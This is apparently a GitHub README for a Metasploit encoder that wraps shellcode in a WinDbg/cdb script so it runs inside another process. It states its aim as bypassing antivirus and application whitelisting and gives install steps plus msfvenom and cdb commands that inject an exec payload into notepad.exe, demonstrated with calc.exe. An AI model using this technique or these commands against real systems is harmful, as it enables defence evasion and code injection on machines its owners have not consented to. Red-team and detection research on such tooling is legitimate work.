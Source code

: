 Windbg Script Encoder For Metasploit
======================================

From an idea at http://www.exploit-monday.com/2016/08/windbg-cdb-shellcode-runner.html

Bypass various kinds of protections, AV, application whitelisting etc by running your 
shellcode in another process. This encoder will give up a cdb script to run to insert
your shellcode in another process.

** INSTALLATION **

windbg.rb to same path in your metasploit install

** USAGE **

The following example will pop calc from a notepad process:

msfvenom  -p windows/x64/exec -e generic/windbg EXITFUNC=thread CMD=calc.exe > calc.wds
cdb.exe -cf calc.wds -o notepad.exe



